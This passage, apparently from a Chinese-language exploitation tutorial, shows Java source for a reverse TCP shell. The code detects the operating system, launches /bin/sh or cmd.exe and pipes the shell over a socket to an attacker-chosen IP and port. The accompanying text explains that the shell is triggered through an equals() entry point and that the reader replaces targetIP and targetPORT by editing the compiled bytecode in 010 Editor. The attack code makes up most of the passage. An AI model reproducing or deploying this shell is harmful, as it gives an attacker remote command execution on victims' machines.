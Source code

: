 ```
        shellReverseTCP.RunShellReverseTCP();
    }

    public void RunShellReverseTCP() {
        try {
            String ShellPath;
            if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
                ShellPath = new String("/bin/sh");
            } else {
                ShellPath = new String("cmd.exe");
            }

            Socket socket = new Socket(ip, Integer.parseInt(port));
            Process process = Runtime.getRuntime().exec(ShellPath);
            (new ShellReverseTCP(process.getInputStream(), socket.getOutputStream())).start();
            (new ShellReverseTCP(socket.getInputStream(), process.getOutputStream())).start();
        } catch (Exception e) {
        }
    }


    public void run() {
        BufferedReader yx = null;
        BufferedWriter jah = null;
        try {
            yx = new BufferedReader(new InputStreamReader(this.zj));
            jah = new BufferedWriter(new OutputStreamWriter(this.sd));
            char buffer[] = new char[8192];
            int length;
            while ((length = yx.read(buffer, 0, buffer.length)) > 0) {
                jah.write(buffer, 0, length);
                jah.flush();
            }
        } catch (Exception e) {
        }
        try {
            if (yx != null)
                yx.close();
            if (jah != null)
                jah.close();
        } catch (Exception e) {
        }
    }
}
```

main函数是调试用的不用管，入口是equals函数，我们的目的就是把其中的targetIP跟targetPORT替换为我们的目标IP跟端口。

用010editor打开编译后的字节码文件查看。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/1599908/1604908249823-745cc001-585e-485a-9325-62d9b26c1ee2.png)
